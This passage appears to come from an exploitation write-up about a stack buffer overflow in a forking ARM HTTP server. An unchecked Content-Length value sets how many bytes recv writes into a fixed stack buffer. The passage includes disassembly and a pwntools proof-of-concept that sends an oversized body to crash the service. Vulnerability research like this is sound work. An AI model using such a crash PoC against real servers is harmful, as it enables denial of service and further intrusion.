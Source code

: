The use of `fork()` is a good news as we know that we will be able to reuse
any address we leaked.

The forked process which executes `treat_requests()` is more interesting: the
function starts by reading 0x800 bytes and
look for the marker of end for HTTP headers (`CRLF`*2).  If not found, it will
keep iterating through the loop. Otherwise, the block read will search for the header `Content-Length` and if
found, will call `strtol()` on it to convert the pointer into a long
integer (let's call it `N`).
![](https://i.imgur.com/awC1RfU.png)

This value will be used to call read `N` bytes from
the socket and stored in local buffer of size 0xffc. The overflow comes clear as
we controlled the size of the `Content-Length` header, we can forged an HTTP
request whose body is big enough to corrupt the memory.

{% highlight text %}
.text:000015DC MOV     R1, #0          ; endptr
.text:000015E0 MOV     R2, #10         ; base
.text:000015E4 BL      strtol
.text:000015E8 SUBS    R4, R0, 0       ; N=$r4=strtol(hdrs["Content-Length"), 10)
[...]
.text:00001608 MOV     R0, R9          ; fd
.text:0000160C MOV     R1, R6          ; stack_buffer
.text:00001610 MOV     R2, R4          ; N
.text:00001614 MOV     R3, R10         ; flags
.text:00001618 BL      recv
{% endhighlight %}

This is quite easy to PoC, simply by sending a large buffer:

{% highlight python %}
from pwn import *

r = remote("rpi2-1", 80)
crlf = "\r\n"
head = ["GET . HTTP/1.1",
        "Host: rpi2-1",
        "Content-Length: 10000"]

log.info("sending header")
r.send(crlf.join(head) + crlf*2)

log.info("sending body")
r.send("A"*10000)
{% endhighlight %}

Run it and see the crash.

{% highlight bash %}
$ py exploit.py
[+] Opening connection to rpi2-1 on port 80: Done
[+] sending header
[+] sending body
[*] Closed connection to rpi2-1 port 80
{% endhighlight %}
